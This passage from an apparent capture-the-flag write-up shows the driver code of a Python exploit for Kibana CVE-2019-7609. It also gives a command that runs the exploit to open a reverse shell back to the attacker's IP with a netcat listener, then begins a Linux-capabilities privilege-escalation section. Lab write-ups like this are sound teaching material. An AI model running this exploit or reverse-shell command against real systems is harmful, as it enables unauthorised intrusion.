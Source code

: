 ```python
    parser.add_argument("-host", dest='remote_host', default="127.0.0.1", type=str, help='reverse shell remote host: such as: 1.1.1.1')
    parser.add_argument("-port", dest='remote_port', default="8888", type=str, help='reverse shell remote port: such as: 8888')
    parser.add_argument('--shell', dest='reverse_shell', default='', action="store_true", help='reverse shell after verify')

    if len(sys.argv) == 1:
        sys.argv.append('-h')
    args = parser.parse_args()
    target = args.url
    remote_host = args.remote_host
    remote_port = args.remote_port
    is_reverse_shell = args.reverse_shell

    target = target.rstrip('/')
    if "://" not in target:
        target = "http://" + target
    try:
        version = get_kibana_version(target)
        result = verify(target)
        if result:
            print("[+] {} maybe exists CVE-2019-7609 (kibana < 6.6.1 RCE) vulnerability".format(target))
            if is_reverse_shell:
                result = reverse_shell(target, remote_host, remote_port)
                if result:
                    print("[+] reverse shell completely! please check session on: {}:{}".format(remote_host, remote_port))
                else:
                    print("[-] cannot reverse shell")
        else:
            print("[-] {} do not exists CVE-2019-7609 vulnerability".format(target))
    except Exception as e:
        print("[-] cannot exploit!")
        print("[-] Error on: \n")
        traceback.print_exc()
```

Which we can use as follows:

```bash
python2 -u http://$IP:6501 -host $MY_IP -port 9999 --shell
```

Alongside a netcat listener, and viola! We have a reverse shell!

---

### Escalating Priviledges

Now that we have access onto the box and the user flag, we can search for vunerabilities. The task very clearly indicates it has something to do with `capabilties`.
If you are unsure what capabilties are, `they are "special attributes in the Linux kernel that grant processes and binary executables specific privileges that are normally reserved for processes whose effective user ID is 0 (The root user, and only the root user, has UID 0)."`
